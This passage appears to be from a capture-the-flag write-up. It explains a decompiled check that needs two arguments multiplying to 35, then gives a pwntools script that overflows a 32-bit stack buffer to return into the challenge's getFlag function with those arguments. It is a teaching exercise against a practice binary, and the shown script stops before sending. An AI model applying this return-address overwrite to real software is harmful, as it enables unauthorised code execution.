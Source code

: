 ```c=
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}
```

- In the disassembly of `getFlag` function, we've to pass if condition with multiply the value of `param_1` and `param_2`, so it will be equal to `0x23` (or 35 in decimal). We can do simple math, for example: `param_1` = **7** and `param_2` = **5**, so the output will be **35**.
- Here's my exploit script for this challenge.

```python=
#!/usr/bin/env python3
#filename: exploit.py

"""INFO:
- The binary is x86 (32 bit) architecture.
- The buffer size is 0x24 (36 Bytes) + 0x4 (4 Bytes) for EBP = 40 Bytes.
- All we've to do is just return to `getFlag` function.
"""

from pwn import *

context.binary = elf = ELF("./challenge.elf", checksec=0)
context.log_level = "debug"

# 1. Prepare the payload.
win_addr = p32(elf.symbols['getFlag'])

payload = b"A"*0x24 #----------------< Junk.
payload += b"B"*0x4 #----------------< Old EBP.
payload += win_addr #----------------< Buffer address.
payload += b"C"*0x4 #----------------< Stack alignment.
payload += p32(0x7) #----------------< Param 1 = 7.
payload += p32(0x5) #----------------< Param 2 = 5.

"""Payload from p0np0n
# Link: https://www.youtube.com/watch?v=8wn7ue68vmE
payload = b"A"*40
payload += win_addr
payload += p32(0x41)
payload += p32(1) * 1
payload += p32(0x23)
"""

# Because all function args is placed into the stack.
# [     5     ] = function arg2 / ebp + 0xc
# [     7     ] = function arg1 / ebp + 0x8
# [ alignment ] = stack alignment / caller function
# [    ret    ] = win_addr / getFlag / ebp + 0x4
# [  old rbp  ] = 0x4
# [   buffer  ] = 0x24 / ebp - 0x4

# 2. Send the payload
is_remote = False # change to True if you want to run remotely.

if is_remote:
    io = remote("challenge.ctf.games", 30300)
else:
    io = elf.process()

```